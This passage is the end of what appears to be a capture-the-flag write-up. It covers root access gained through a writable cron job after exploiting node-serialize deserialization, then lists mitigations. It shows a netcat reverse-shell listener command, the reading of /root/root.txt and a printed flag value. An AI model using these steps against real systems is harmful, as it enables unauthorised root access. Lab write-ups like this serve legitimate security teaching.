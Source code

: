 <img width="612" height="289" alt="image" src="https://github.com/user-attachments/assets/fad75855-a997-4778-89b2-742cd9c037b1" />


**Step 4: Set up listener**
```bash
nc -nlvp 9001
```

<img width="463" height="140" alt="image" src="https://github.com/user-attachments/assets/f9836631-0c3e-41f0-96fa-42ee73238000" />

### Root Access

After cron job execution (within 5 minutes), root shell is obtained.

**Privilege Verification:**
```bash
id
whoami
hostname
```

**Root Flag:**
```bash
cat /root/root.txt
38ba1e10e076213df5db26d1fc5fe7aa
```

<img width="825" height="852" alt="image" src="https://github.com/user-attachments/assets/815c326c-7c25-4d5e-96c8-52b3da74e8d0" />

## 🎓 Lessons Learned

### Critical Vulnerabilities

1. **Insecure Deserialization**
   - Application blindly trusted user-supplied serialized data
   - No validation or sanitization of input
   - Use of vulnerable `node-serialize` library

2. **Privilege Misconfiguration**
   - Cron job running with excessive privileges
   - Write permissions granted to low-privilege user
   - Lack of file integrity checks

### Mitigation Strategies

**For Developers:**
- Implement proper input validation and sanitization
- Avoid insecure serialization libraries
- Use JSON web tokens or other secure session management
- Regular security dependency audits

**For System Administrators:**
- Follow principle of least privilege for scheduled tasks
- Implement file integrity monitoring
- Regular security patching and updates
- Proper logging and monitoring of system activities
